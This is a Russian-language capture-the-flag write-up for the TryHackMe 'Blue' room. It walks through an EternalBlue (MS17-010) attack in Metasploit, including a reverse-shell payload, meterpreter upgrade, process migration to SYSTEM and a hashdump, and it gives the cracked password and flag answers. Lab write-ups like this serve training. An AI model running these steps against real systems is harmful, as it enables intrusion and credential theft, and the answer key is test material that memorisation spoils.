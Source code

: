[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Blue](https://tryhackme.com/r/room/blue) 

Всего 5 заданий:
## Задание 1
Просканируйте и узнайте, к какому эксплойту уязвима эта машина. Обратите внимание, что эта машина не отвечает на 
ping (ICMP) и может потребоваться несколько минут для загрузки. Эта комната не предназначена для boot2root CTF, 
скорее, это образовательная серия для полных новичков. Профессионалы, скорее всего, получат очень мало из этой 
комнаты, кроме базовой практики, поскольку процесс здесь предназначен для новичков.

Искусство одного из наших участников, Варга - Профиль THM - Instagram  - Blue Merch  - Twitter

Ссылка на Ice, продолжение Blue: Ссылка

Третью коробку из этой серии, Blaster, можно посмотреть здесь: Ссылка

-----------------------------------------

Виртуальную машину, используемую в этой комнате (синюю), можно загрузить для использования в автономном режиме с  
https://darkstar7471.com/resources.html 

Наслаждайтесь комнатой! Для будущих комнат и статей подписывайтесь на @darkstar7471 в Twitter.

### Ответить на вопросы ниже
Просканируйте машину. (Если вы не знаете, как с этим справиться, рекомендую заглянуть в комнату Nmap)
```commandline
Ответ не нужен
```
Сколько портов открыто с номером порта менее 1000?
```commandline
3
```
К чему уязвима эта машина? (Ответ в форме: ms??-???, например: ms08-067)
```commandline
ms17-010
```
## Задание 2
Используйте машину и закрепитесь.

### Ответить на вопросы ниже
Запустить Metasploit
```commandline
Ответ не нужен
```
Найдите код эксплуатации, который мы запустим против машины. Каков полный путь кода? (Например: эксплойт/........)
```commandline
exploit/windows/smb/ms17_010_eternalblue
```
Показать параметры и установить одно необходимое значение. Как называется это значение? (Все заглавные буквы для отправки)
```commandline
RHOSTS
```
Обычно было бы нормально запустить этот эксплойт как есть; однако, ради обучения, вы должны сделать еще одну вещь, 
прежде чем эксплуатировать цель. Введите следующую команду и нажмите Enter:

`set payload windows/x64/shell/reverse_tcp`

После этого запустите эксплойт!
```commandline
Ответ не нужен
```
Подтвердите, что эксплойт отработал правильно. Возможно, вам придется нажать Enter, чтобы появилась оболочка DOS. 
Переведите эту оболочку в фоновый режим (CTRL + Z). Если это не удалось, вам, возможно, придется перезагрузить 
целевую виртуальную машину. Попробуйте запустить ее снова перед перезагрузкой цели.   
```commandline
Ответ не нужен
```

## Задание 3
Повышайте привилегии, узнайте, как обновить оболочки в metasploit.

### Ответить на вопросы ниже
Если вы еще этого не сделали, переведите ранее полученную оболочку в фоновый режим (CTRL + Z). Найдите в интернете 
информацию о том, как преобразовать оболочку в оболочку meterpreter в metasploit. Как называется пост-модуль, 
который мы будем использовать? (Точный путь, аналогичный эксплойту, который мы выбрали ранее)   
```commandline
post/multi/manage/shell_to_meterpreter
```
Выберите это (используйте MODULE_PATH). Показать параметры, какой параметр нам необходимо изменить?
```commandline
SESSION
```
Установите требуемую опцию. Возможно, вам придется перечислить все сеансы, чтобы найти здесь нужную вам цель. 
```commandline
Ответ не нужен
```
Запустить! Если это не сработало, попробуйте выполнить эксплойт из предыдущей задачи еще раз.
```commandline
Ответ не нужен
```
После завершения преобразования оболочки meterpreter выберите этот сеанс для использования.
```commandline
Ответ не нужен
```
Убедитесь, что мы перешли на NT AUTHORITY\SYSTEM. Запустите getsystem, чтобы подтвердить это. Не стесняйтесь 
открывать оболочку dos с помощью команды 'shell' и запускать 'whoami'. Это должно вернуть, что мы действительно 
являемся системой. После этого переведите эту оболочку в фоновый режим и снова выберите наш сеанс meterpreter для 
использования.
```commandline
Ответ не нужен
```
Перечислите все процессы, запущенные с помощью команды 'ps'. То, что мы являемся системой, не означает, что наш 
процесс таковым является. Найдите процесс в нижней части этого списка, который запущен в NT AUTHORITY\SYSTEM, и 
запишите идентификатор процесса (крайний левый столбец).  
```commandline
Ответ не нужен
```
Перейдите в этот процесс с помощью команды 'migrate PROCESS_ID', где идентификатор процесса — тот, который вы только 
что записали на предыдущем шаге. Это может занять несколько попыток, миграция процессов не очень стабильна. Если это 
не удается, вам может потребоваться повторно запустить процесс преобразования или перезагрузить машину и начать 
снова. Если это произойдет, попробуйте другой процесс в следующий раз.
```commandline
Ответ не нужен
```

## Задание 4
Скопируйте пароль пользователя, не являющийся паролем по умолчанию, и взломайте его!

### Ответить на вопросы ниже
В нашей оболочке meterpreter с повышенными правами выполните команду 'hashdump'. Это позволит сбросить все пароли на 
машине, если у нас есть необходимые привилегии для этого. Каково имя пользователя, не являющегося пользователем по 
умолчанию?   
```commandline
Jon
```
Скопируйте этот хэш пароля в файл и найдите способ его взлома. Какой взломанный пароль?
```commandline
alqfna22
```

## Задание 5
Найдите три флага, установленных на этой машине. Это не традиционные флаги, они, скорее, представляют ключевые места 
в системе Windows. Используйте подсказки, приведенные ниже, чтобы пройти эту комнату!
-----------------------------------------------------------------
Закончили Blue? Проверьте Ice:  Ссылка

Третью коробку из этой серии, Blaster, можно посмотреть здесь: Ссылка

### Ответить на вопросы ниже
Флаг1? Этот флаг можно найти в корне системы. 

```commandline
flag{access_the_machine}
```
Флаг2? Этот флаг можно найти в месте хранения паролей в Windows.

*Errata: Windows действительно не нравится расположение этого флага, и иногда он может его удалить. В некоторых 
случаях может потребоваться завершить/перезапустить машину и повторно запустить эксплойт, чтобы найти этот флаг. Это 
довольно редко, однако это может произойти.   
```commandline
flag{sam_database_elevated_access}
```
flag3? Этот флаг можно найти в отличном месте для добычи. В конце концов, у Администраторов обычно есть довольно 
интересные сохраненные вещи.  
```commandline
flag{admin_documents_can_be_valuable}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)